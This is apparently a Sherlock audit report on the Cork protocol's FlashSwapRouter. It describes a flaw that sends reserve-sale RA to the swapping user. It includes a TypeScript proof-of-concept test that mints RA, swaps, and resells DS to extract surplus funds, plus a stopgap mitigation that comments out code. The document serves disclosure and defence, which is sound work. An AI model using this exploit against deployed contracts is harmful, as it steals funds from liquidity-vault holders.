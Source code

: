 High Flint Llama

High

# Incorrect RA Transfer on Reserve's DS Sale

### Summary

In the current implementation, when DS tokens are sold from the reserve when user call `RouterState::swapRaforDs`, the RA  is  transferred to the msg.sender (the user initiating the swap), instead of being  sent to Vault. This results in the user receiving not only DS tokens but also the RA, leading to an unintended and exploitable behavior.

### Root Cause

In `RouterState::_swapRaforDs` when we call  `__swapDsforRa`, the resulting RA is sent to msg.sender. 

```solidity
            // sell the DS tokens from the reserve and accrue value to LV holders
            uint256 vaultRa = __swapDsforRa(assetPair, reserveId, dsId, amountSellFromReserve, 0);
            IVault(owner()).provideLiquidityWithFlashSwapFee(reserveId, vaultRa);
```
https://github.com/sherlock-audit/2024-08-cork-protocol/blob/db23bf67e45781b00ee6de5f6f23e621af16bd7e/Depeg-swap/contracts/core/flash-swaps/FlashSwapRouter.sol#L119C9-L129C10


### Impact

This results in losses for LV holders, but a malicious user could exploit this vulnerability to steal a significant amount of RA from the protocol.

### PoC

run the poc in `test/contracts/FlashSwapRouter.ts` (describe "Buy DS")
```js
it("should steal funds from protocol", async function () {

      const raProvided = parseEther("10");

      let dsContract: Awaited<ReturnType<typeof getDs>>;
      dsContract = await getDs(pool.ds!);

      let ds = await dsContract.read.balanceOf([
        secondSigner.account.address,
      ]);

      console.log(`user start with ${ds.toString()} DS`);
    
      await fixture.ra.write.mint([secondSigner.account.address, raProvided]);

      let raBalance = await fixture.ra.read.balanceOf([
        secondSigner.account.address,
      ]);

      console.log(`user start with ${raBalance.toString()} RA`);

      await fixture.ra.write.approve([
        fixture.dsFlashSwapRouter.contract.address,
        raProvided,
      ],{
        account: secondSigner.account,
      });

      await fixture.dsFlashSwapRouter.contract.write.swapRaforDs([
        pool.Id,
        pool.dsId!,
        raProvided,
        BigInt(0),
      ],{
        account: secondSigner.account,
      });

      raBalance = await fixture.ra.read.balanceOf([
        secondSigner.account.address,
      ]);

      ds = await dsContract.read.balanceOf([
        secondSigner.account.address,
      ]);

      console.log(`After buying ${ds.toString()} DS for 10 ether RA, user should have 0 RA but he get ${raBalance.toString()} RA`);


      await dsContract.write.approve([
        fixture.dsFlashSwapRouter.contract.address,
        ds,
      ],{
        account: secondSigner.account,
      });

      await fixture.dsFlashSwapRouter.contract.write.swapDsforRa([
        pool.Id,
        pool.dsId!,
        ds,
        BigInt(0),
      ],{
        account: secondSigner.account,
      });

      raBalance = await fixture.ra.read.balanceOf([
        secondSigner.account.address,
      ]);


       ds = await dsContract.read.balanceOf([
        secondSigner.account.address,
      ]);

      console.log(`User resell all DS and his new balance is ${raBalance.toString()} RA and ${ds.toString()} DS`);

      
    });
```

###Output

![Screenshot from 2024-09-09 16-40-16](https://github.com/user-attachments/assets/c67ef0d5-ba34-4dbd-97b3-533e4bda7614)



### Mitigation

Comment out these lines  in `_swapRaforDs`

```solidity
 if (amountSellFromReserve != 0) {
            // decrement reserve
            assetPair.reserve -= amountSellFromReserve;

            // sell the DS tokens from the reserve and accrue value to LV holders
            //uint256 vaultRa = __swapDsforRa(assetPair, reserveId, dsId, amountSellFromReserve, 0);
            //IVault(owner()).provideLiquidityWithFlashSwapFee(reserveId, vaultRa);

            // recalculate the amount of DS tokens attributed, since we sold some from the reserve
            (amountOut, borrowedAmount,) = assetPair.getAmountOutBuyDS(amount);
        }
```

The output of the POC

![Screenshot from 2024-09-09 16-44-25](https://github.com/user-attachments/assets/bc498dbb-96b0-4a60-986d-8eeef0385448)

So we should write a new function to handle this operation, when we call `__swapDsforRa` the msg.sender is the user not RouterState or Vault. 
